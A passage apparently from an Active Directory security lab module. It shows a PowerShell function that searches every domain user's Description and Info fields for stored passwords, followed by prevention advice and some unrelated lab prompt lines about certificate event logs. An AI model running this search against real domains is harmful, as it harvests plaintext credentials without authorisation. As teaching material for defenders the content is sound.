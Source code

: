 When administrators create accounts, they fill in those properties. A common practice in the past was to add the user's (or service account's) password in the `Description` or `Info` properties, thinking that administrative rights in AD are needed to view these properties. However, `every` domain user can read most properties of an object (including `Description` and `Info`).

## The Attack

```PowerShell
Function SearchUserClearTextInformation
{
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )

    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms)
    {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}

SearchUserClearTextInformation -Terms "pass"
```

## Prevention

We have many options to prevent this attack/misconfiguration:

- Perform continuous assessments to detect the problem of storing credentials in properties of objects.
- Educate employees with high privileges to avoid storing credentials in properties of objects.
- Automate as much as possible of the user creation process to ensure that administrators don't handle the accounts manually, reducing the risk of introducing hardcoded credentials in user objects.


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *